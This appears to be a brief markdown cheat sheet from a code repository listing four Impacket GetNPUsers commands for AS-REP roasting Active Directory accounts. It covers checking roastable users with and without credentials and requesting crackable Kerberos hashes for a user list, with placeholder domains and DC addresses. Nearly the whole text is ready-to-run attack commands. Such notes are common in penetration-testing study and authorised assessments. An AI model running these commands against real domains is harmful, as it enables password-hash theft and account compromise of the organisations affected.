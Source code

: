 # Impacket-GetNPUsers

## Use this impacket module to perform an ASREP-Roasting attack

#### 1) 

    Impacket-GetNPUsers DOMAIN.COM/USERNAME -no-pass (ASREPRoastable account)

#### 2) 

    Impacket-GetNPUsers DOMAIN.COM/USERNAME:PASSWORD (Request for ASREPRoastable Users within the domain)

#### 3) 

    GetNPUsers.py DOMAIN.local/ -no-pass -usersfile users.txt -dc-ip DC_IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' 
    
(Check a list of valid users that are ASREPRoastable)

#### 4) 

    impacket-GetNPUsers -dc-ip DC_IP -request -usersfile usernames.txt DOAMIN.COM/

(ASREPRoast the users within the usernames file)
